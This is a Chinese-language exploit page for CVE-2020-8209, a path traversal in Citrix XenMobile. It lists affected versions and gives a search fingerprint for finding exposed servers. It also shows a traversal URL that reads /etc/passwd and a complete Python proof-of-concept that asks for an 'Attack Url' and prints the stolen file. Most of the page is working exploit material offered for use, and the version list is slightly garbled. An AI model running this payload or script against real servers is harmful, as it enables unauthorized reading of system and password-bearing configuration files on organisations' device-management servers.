

# Citrix XenMobile 任意文件读取 CVE-2020-8209

## 漏洞描述

XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 漏洞影响

```
RP2之前的XenMobile服务器10.12
RP4之前的XenMobile服务器10.11
RP6之前的XenMobile服务器10.1010.9
RP5之前的XenMobile服务器
```

## 网络测绘

```
title="XenMobile"
```

## 漏洞复现

访问 [**http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd**](http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd) 可以成功下载**/etc/passwd**文件




## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Citrix XenMobile                                          \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-8209.py                                  \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 含有CVE-2020-8209漏洞，成功读取/etc/passwd\033[0m\n{} ".format(response.text))
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >		>> \033[0m"))
    POC_1(target_url)
```
